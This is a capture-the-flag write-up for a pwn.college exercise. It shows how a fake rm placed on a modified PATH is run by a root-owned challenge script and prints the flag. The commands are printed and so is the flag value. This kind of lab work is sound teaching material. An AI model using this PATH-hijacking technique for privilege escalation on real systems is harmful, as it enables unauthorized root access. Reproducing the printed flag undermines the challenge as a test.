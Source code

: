 How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

## Solution: 
- The name suggests hijacking another flag.
- Since the rm command is run with root, name the file rm
- Save and change PATH to /home/hacker.
- /challenge/flag gives the flag instead of deleting.

```sh
hacker@path~hijacking-commands:~$ chmod a+x /home/hacker/rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
bash: sed: command not found
Trying to remove /flag...
pwn.college{AYC6rjafQg38JgjyBGcE2n77Yuf.QX3cjM1wCM2kjNzEzW}
```

## Flag:
```
pwn.college{AYC6rjafQg38JgjyBGcE2n77Yuf.QX3cjM1wCM2kjNzEzW}
```

### References:
- None

### Notes:
- We can hijack commands by changing path to different ones.

